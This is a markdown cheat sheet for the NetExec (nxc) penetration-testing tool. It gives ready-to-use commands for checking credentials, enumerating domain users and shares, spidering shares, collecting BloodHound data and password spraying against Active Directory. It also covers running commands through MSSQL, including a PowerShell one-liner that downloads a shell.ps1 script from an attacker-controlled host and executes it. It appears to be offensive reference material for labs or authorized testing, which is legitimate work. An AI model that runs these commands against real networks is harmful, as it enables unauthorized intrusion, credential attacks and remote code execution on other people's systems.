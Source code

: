 # Netexec (nxc)

## [Installation](https://www.netexec.wiki/getting-started/installation)

## Recon
* Verify Credentials
  ```bash
  nxc smb <dc hname> -u <user> -p <password>
  ```
* Enumerate users
  ```bash
  nxc smb <dc hname> -u <user> -p <password> --users
  ```
  Create a user list
  - Copy output to a .txt file and run the following
  ```bash
  cat <users.txt> |awk '{print $5}' > userlist.txt
  ```
* Enumerate Shares
  ```bash
  nxc smb <dc hname> -u <user> -p <password> --shares
  ```
  ```bash
  # Spidering shares (Exluces print$, ipc$, NETLOGON, SYSVOL
  nxc smb <dc hname> -u <user> -p <password> -M spider_plus -o EXCLUDE_FILTER='print$,NETLOGON,SYSVOL,ipc$'
  ```
  ```bash
  # Parse the resulting json file
  cat <filename> | jq '. | map_values(keys)'|grep -v 'lnk\|ini'
  ```
* Bloodhound Collection
  ```bash
  nxc ldap <dc hname> -u <user> -p <password> --bloodhound --collection All --dns-server <DNS IP>
  ```
* Password Spray
  ```bash
  nxc smb <hname or ip> -u <users.txt> -p <password_to_test> --continue-on-success
  ```

## SQL
* Run commands
  ```bash
  nxc mssql <hname> -u <user> -p <password> -x $command
  ```
  ```bash
  # Run powershell commands by capitalizing the "x"
  nxc mssql <hname> -u <user> -p <password> -X $command
  ```
  If you get an error about an untrusted domain and integrated authentication, use the `--local-auth` tag
* Download a file
  ```bash
  nxc mssql <hname> -u <user> -p <pass> --local-auth -X 'IEX(New-Object Net.WebClient).downloadString("http://10.10.14.14:8000/shell.ps1")'
  ```

